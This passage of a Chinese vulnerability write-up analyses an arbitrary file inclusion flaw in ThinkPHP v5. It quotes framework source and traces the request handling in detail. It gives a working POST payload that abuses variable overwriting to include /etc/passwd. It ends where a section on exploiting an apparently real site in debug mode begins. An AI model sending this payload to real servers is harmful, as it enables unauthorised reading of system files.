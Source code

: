 

## 任意文件包含

根据以上分析，在该版本`ThinkPHP`中还存在任意文件包含，在`thinkphp\library\think\Loader.php`中存在`__include_file`方法：

```
namespace think;
...
function __include_file($file)
`{`
    return include $file;
`}`
```

可以通过回调函数`call_user_func`调用`think\__include_file`，可以构造相应payload

```
POST /index.php?s=captcha 
_method=__construct&amp;method=GET&amp;filter[]=think\__include_file&amp;server[REQUEST_METHOD]==/etc/passwd
```

注意调用该方法时会进入`Request.php`中的`param`方法：

[![](https://p1.ssl.qhimg.com/t017700274e3ceaa331.png)](https://p1.ssl.qhimg.com/t017700274e3ceaa331.png)

​ `method`方法本来是`false`默认参数，现在参数为`true`，我们跟进看一下其逻辑:

[![](https://p5.ssl.qhimg.com/t01c982ed5fd8a20ca1.png)](https://p5.ssl.qhimg.com/t01c982ed5fd8a20ca1.png)

直接进入第一个`if`语句中，调用关键方法`server()`，在不妨跟进:

```
public function server($name = '', $default = null, $filter = '')
    `{`
        if (empty($this-&gt;server)) `{`
            $this-&gt;server = $_SERVER;
        `}`
        if (is_array($name)) `{`
            return $this-&gt;server = array_merge($this-&gt;server, $name);
        `}`
        return $this-&gt;input($this-&gt;server, false === $name ? false : strtoupper($name), $default, $filter);
    `}`
```

上文已分析过，`$this-&gt;input()`第一个参数，即使回调函数的参数，因此`$this-&gt;server`将是我们想要执行方法的参数，此处我们执行的`think\__include_file`方法，因此我们要改变`$this-&gt;server`的值，由于`$server`为`Request`类的属性，根据上文变量覆盖利用，我们利用变量覆盖使得`$_SERVER[REQUEST_METHOD]`为参数，这样就能利用`include`进行任意文件包含。



## 实际利用

发现某站部署`Thinkphp v5`系统，并且在系统配置中是默认配置的`debug`模式：
